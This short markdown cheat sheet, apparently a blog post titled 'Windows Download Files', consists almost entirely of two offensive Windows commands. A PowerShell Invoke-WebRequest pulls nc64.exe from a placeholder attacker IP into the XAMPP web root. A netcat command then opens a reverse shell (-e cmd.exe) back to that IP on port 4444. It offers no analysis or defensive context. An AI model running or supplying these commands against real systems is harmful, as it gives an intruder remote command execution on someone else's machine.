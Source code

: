 ```yaml
---
layout: post
title:  "Windows Download Files"
date:   2022-01-01
categories: web
---
```



## Download Files

```bash

powershell.exe Invoke-WebRequest -Uri "http://<my ip>:81/netcat/nc64.exe" -OutFile "C:\xampp\htdocs\nc.exe"

```

## Reverse Shell


```bash

cmd.exe /c C:\xampp\htdocs\nc.exe -e cmd.exe <my ip> 4444

```